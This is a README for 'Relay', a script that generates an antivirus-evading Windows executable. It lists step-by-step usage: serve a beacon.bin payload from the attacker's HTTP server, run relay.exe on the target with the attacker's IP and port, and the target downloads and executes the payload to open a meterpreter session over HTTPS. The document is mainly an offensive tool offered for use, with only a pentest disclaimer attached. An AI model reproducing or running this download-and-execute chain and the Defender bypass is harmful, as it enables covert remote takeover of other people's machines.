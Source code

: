 # Speed Up Windows Defender Bypass and Reverse Shell

Script Name: **Relay**

## Description

The "Relay" script is a powerful tool designed to generate an executable file that bypasses Windows Defender and establishes a secure connection using meterpreter over HTTPS. This script automates the process of creating a payload that can be used for various purposes, such as penetration testing and security assessments.

## Features

- Bypasses Windows Defender: The generated executable is specifically crafted to evade detection by Windows Defender and other antivirus software.
- Meterpreter over HTTPS: The script establishes a connection using meterpreter, providing a versatile and robust framework for interacting with the target system.
- Encrypted Communication: All communication between the attacker and the target system is encrypted using HTTPS, ensuring confidentiality and integrity of the data exchanged.
- Simple Usage: The script prompts the user to enter their IP address, port, and certificate file, making it easy to customize and generate the payload.

## Usage

1. Run the Python script: `python3 relay.py` and follow the on-screen instructions.
2. Enter your IP address and port, when prompted.
3. The script will generate the `beacon.bin` and an executable file named `relay.exe`.
4. On the attacker machine, navigate to the directory containing `beacon.bin`.
5. Start a simple HTTP server using the command: `python3 -m http.server`.
6. Transfer the `relay.exe` file to the target system.
7. On the target system, open a command prompt and navigate to the directory containing `relay.exe`.
8. Run the following command: `relay.exe <attacker_ip> <attacker_port> beacon.bin`. Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port specified during script execution.
9. The target system will download `beacon.bin` from the HTTP server and execute it, establishing a meterpreter session over HTTPS.

**Note:** Ensure that you have the necessary permissions and legal authorization before using this script for any activities.

## Disclaimer

This script is intended for educational and ethical purposes only. The misuse of this script for any unauthorized activities is strictly prohibited. The author is not responsible for any damage or illegal actions caused by the use of this script.

## License

This project is licensed under the [MIT License](LICENSE).
